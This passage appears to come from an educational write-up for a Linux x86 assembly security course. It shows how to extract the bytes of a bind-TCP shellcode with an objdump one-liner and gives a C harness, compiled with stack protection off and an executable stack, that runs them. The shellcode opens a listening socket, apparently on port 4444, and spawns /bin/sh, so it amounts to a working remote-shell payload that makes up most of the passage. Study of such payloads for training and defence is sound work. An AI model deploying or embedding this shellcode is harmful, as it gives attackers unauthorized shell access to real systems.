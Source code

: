  After confirming that no `NULL` bytes (`\x00`) are present in the output of `objdump`, the shellcode can be extracted and formatted using the following one-liner. Credit for this goes to gunslinger_ from commandlinefu.com.

 ```shell
root@kali:~/workspace/SLAE# /usr/bin/objdump -d ./shell_bind_tcp | grep '[0-9a-f]:' | grep -v 'file' | cut -f2 -d:|cut -f1-6 -d' ' | tr -s ' ' | tr '\t' ' ' | sed 's/ $//g' | sed 's/ /\\x/g' | paste -d '' -s | sed 's/^//' | sed 's/$//g'
\x31\xd2\x31\xc9\x31\xdb\x31\xc0\x52\x6a\x01\x6a\x02\x89\xe1\xfe\xc3\xb0\x66\xcd\x80\x89\xc6\x52\x66\x68\x11\x5c\x66\x6a\x02\x89\xe1\x6a\x10\x51\x56\x89\xe1\xfe\xc3\xb0\x66\xcd\x80\x52\x56\x89\xe1\xb3\x04\xb0\x66\xcd\x80\x52\x52\x56\x89\xe1\xfe\xc3\xb0\x66\xcd\x80\x89\xd1\x89\xc3\xb0\x3f\xcd\x80\xfe\xc1\xb0\x3f\xcd\x80\xfe\xc1\xb0\x3f\xcd\x80\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80
```

#### Testing The Shellcode
To confirm that the shellcode will work within the context of a C program, the shellcode can be placed in a test program (titled `sc_test.c` in this example) written in C, as shown below.

```c
#include <stdio.h>
#include <string.h>

/*
To compile:
gcc -m32 -fno-stack-protector -z execstack sc_test.c -o sc_test
*/

unsigned char shellcode[] = \
    "\x31\xd2\x31\xc9\x31\xdb\x31\xc0"
    "\x52\x6a\x01\x6a\x02\x89\xe1\xfe"
    "\xc3\xb0\x66\xcd\x80\x89\xc6\x52"
    "\x66\x68\x11\x5c\x66\x6a\x02\x89"
    "\xe1\x6a\x10\x51\x56\x89\xe1\xfe"
    "\xc3\xb0\x66\xcd\x80\x52\x56\x89"
    "\xe1\xb3\x04\xb0\x66\xcd\x80\x52"
    "\x52\x56\x89\xe1\xfe\xc3\xb0\x66"
    "\xcd\x80\x89\xd1\x89\xc3\xb0\x3f"
    "\xcd\x80\xfe\xc1\xb0\x3f\xcd\x80"
    "\xfe\xc1\xb0\x3f\xcd\x80\x52\x68"
    "\x2f\x2f\x73\x68\x68\x2f\x62\x69"
    "\x6e\x89\xe3\x52\x89\xe2\x53\x89"
    "\xe1\xb0\x0b\xcd\x80";

int main(void)
{
    printf("Shellcode Length: %d\n", strlen(shellcode));
    int (*ret)() = (int(*)())shellcode;
    ret();
}
```

This program should then be compiled using the `gcc` command as suggested in the commented code. After compilation, running the `sc_test` program prints the length of the shellcode.
